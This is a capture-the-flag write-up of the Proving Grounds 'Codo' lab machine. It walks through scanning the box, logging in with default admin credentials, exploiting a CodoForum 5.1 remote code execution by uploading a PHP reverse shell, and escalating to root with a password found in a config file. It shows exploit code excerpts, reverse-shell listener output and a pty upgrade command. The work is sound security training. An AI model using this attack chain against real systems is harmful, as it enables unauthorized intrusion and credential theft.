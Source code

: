 ```yaml
---
title: "Proving grounds Play: Codo"
layout: post
date: 2023-10-04 02:00
categories: writeup
---
```


Proving grounds Practice - Codo CTF writeup.

## Nmap

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/tcp open  http - Apache httpd 2.4.41 ((Ubuntu))

http://192.168.211.23/

![img](/assets/images/CTF/Proving_Grounds/Codo/web.png)

### Directory Fuzzing

![img](/assets/images/CTF/Proving_Grounds/Codo/web2.png)

Login to the admin dashboard using credentials `admin:admin`.

![img](/assets/images/CTF/Proving_Grounds/Codo/web3.png)

**Codoforum Current version: V.5.1.105**

The version is vulnerable to [CodoForum v5.1 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/50978).

The exploit is not working properly so manual exploitation is necessarily required to obtain the initial foothold.

## Initial Foothold

**Code Explained**

```py
loginURL = options.target + '/admin/?page=login'
globalSettings = options.target + '/admin/index.php?page=config'
payloadURL = options.target + '/sites/default/assets/img/attachments/'
```

- As per the code the user has to login as admin.
- And navigate to `/admin/index.php?page=config`.
- Upload reverse shell.
- Trigger reverse shell at `/sites/default/assets/img/attachments/` + `uploaded_file_name`.

```py
    print("[*] Checking webshell status and executing...")
    payloadExec = session.get(payloadURL + randomFileName + '.php', proxies=proxy)
```

Upload pentest monkey PHP reverse shell.

![img](/assets/images/CTF/Proving_Grounds/Codo/rev_shell.png)

Trigger reverse shell at.

`http://192.168.211.23/sites/default/assets/img/attachments/shell.php`.

```sh
listening on [any] 4444 ...
connect to [192.168.45.225] from (UNKNOWN) [192.168.211.23] 55984
Linux codo 5.4.0-150-generic #167-Ubuntu SMP Mon May 15 17:35:05 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 14:02:20 up 19 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@codo:/$ 
```

**Initial Foothold Obtained**

## Privilege Escalation

Download and run [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS).

The script will find the password configured in the PHP config files in the system. 

```sh
╔══════════╣ Searching passwords in config PHP files
/var/www/html/sites/default/config.php:  'password' => 'FatPanda123',
```

Use the password to login to root.

```sh
www-data@codo:/tmp$ su root
su root
Password: FatPanda123

root@codo:/tmp# 
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).